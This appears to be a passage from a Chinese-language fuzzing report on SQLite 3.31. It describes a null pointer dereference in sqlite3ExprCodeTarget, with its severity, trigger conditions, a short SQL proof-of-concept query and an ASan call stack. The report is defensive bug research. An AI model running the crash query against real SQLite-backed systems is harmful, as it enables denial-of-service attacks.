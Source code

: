 **严重性评估：**
- **影响**：导致SQLite进程崩溃，可被用于拒绝服务攻击（DoS）
- **可利用性**：高 - 仅需发送特定的SQL查询即可触发
- **触发难度**：中 - 需要特定的表结构和查询模式组合
- **影响范围**：SQLite 3.31及可能的相关版本

### 3.5.2 Bug #002: 表达式代码生成器空指针解引用

**漏洞信息：**
- **类型**: Null Pointer Dereference (CWE-476)
- **检测器**: AddressSanitizer (ASAN_SEGMENTATION_FAULT)
- **Bug签名**: 7aeb314cb45a096e7441d6fac5eb993e
- **触发位置**: sqlite3.c:102733 `sqlite3ExprCodeTarget` 函数
- **发现时间**: 2025-10-23 07:12:17

**触发条件：**

此漏洞由以下SQL模式触发：

1. **多层自连接**：表与自身进行多次JOIN
2. **NATURAL JOIN**：使用NATURAL JOIN自动匹配列
3. **嵌套子查询**：WHERE IN子句包含多层嵌套的SELECT
4. **窗口函数与聚合函数组合**：在COALESCE中同时使用lead() OVER()和SUM()
5. **相关子查询**：内层子查询引用外层查询的列

**PoC分析：**

关键的触发语句：
```sql
CREATE TABLE items(id UNIQUE);
SELECT items.id 
FROM items 
JOIN items i3 ON 5 = items.id 
NATURAL JOIN items 
WHERE items.id IN((
  SELECT(
    SELECT coalesce(lead(2) OVER(), SUM(id))
  ) FROM items i9 WHERE items.id
));
```

**漏洞触发路径：**

```
shell_exec (shell.c:11614)
  → runOneSqlLine (shell.c:18294)
    → process_input (shell.c:18394)
      → sqlite3_prepare_v2 (sqlite3.c:127713)
        → sqlite3RunParser (sqlite3.c:158437)
          → sqlite3Select (sqlite3.c:134063)
            → sqlite3WhereBegin (sqlite3.c:148972)
              → sqlite3WhereCodeOneLoopStart (sqlite3.c:141459)
                → codeAllEqualityTerms (sqlite3.c:140456)
                  → codeEqualityTerm (sqlite3.c:140273)
                    → sqlite3FindInIndex (sqlite3.c:101352)
                      → sqlite3CodeRhsOfIN (sqlite3.c:101613)
                        → sqlite3ExprCode (sqlite3.c:103218)
                          → sqlite3CodeSubselect (sqlite3.c:101738)
                            → sqlite3Select (sqlite3.c:134588/133888)
                              → selectInnerLoop (sqlite3.c:128874)
                                → innerLoopLoadRow (sqlite3.c:128421)
                                  → sqlite3ExprCodeExprList (sqlite3.c:103313)
                                    → sqlite3ExprCodeTarget (sqlite3.c:102883/102733) ← 崩溃
```
